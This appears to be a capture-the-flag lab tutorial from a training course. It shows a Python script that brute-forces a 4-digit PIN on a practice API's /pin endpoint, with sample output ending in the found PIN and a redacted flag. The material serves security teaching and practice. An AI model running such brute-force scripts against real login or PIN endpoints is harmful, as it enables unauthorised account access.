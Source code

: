 ## Cracking the PIN

**To follow along, start the target system via the question section at the bottom of the page.**

The instance application generates a random 4-digit PIN and exposes an endpoint (`/pin`) that accepts a PIN as a query parameter. If the provided PIN matches the generated one, the application responds with a success message and a flag. Otherwise, it returns an error message.

We will use this simple demonstration Python script to brute-force the`/pin` endpoint on the API. Copy and paste this Python script below as`pin-solver.py` onto your machine. You only need to modify the IP and port variables to match your target system information.


```python
import requests

ip = "127.0.0.1" # Change this to your instance IP address
port = 1234 # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
 formatted_pin = f"{pin:04d}" # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
 print(f"Attempted PIN: {formatted_pin}")

 # Send the request to the server
 response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

 # Check if the server responds with success and the flag is found
 if response.ok and 'flag' in response.json(): # .ok means status code is 200 (success)
 print(f"Correct PIN found: {formatted_pin}")
 print(f"Flag: {response.json()['flag']}")
 break
```

The Python script systematically iterates all possible 4-digit PINs (0000 to 9999) and sends GET requests to the Flask endpoint with each PIN. It checks the response status code and content to identify the correct PIN and capture the associated flag.


```shell-session
smoothment@htb[/htb]$ python pin-solver.py

...
Attempted PIN: 4039
Attempted PIN: 4040
Attempted PIN: 4041
Attempted PIN: 4042
Attempted PIN: 4043
Attempted PIN: 4044
Attempted PIN: 4045
Attempted PIN: 4046
Attempted PIN: 4047
Attempted PIN: 4048
Attempted PIN: 4049
Attempted PIN: 4050
Attempted PIN: 4051
Attempted PIN: 4052
Correct PIN found: 4053
Flag: HTB{...}
```
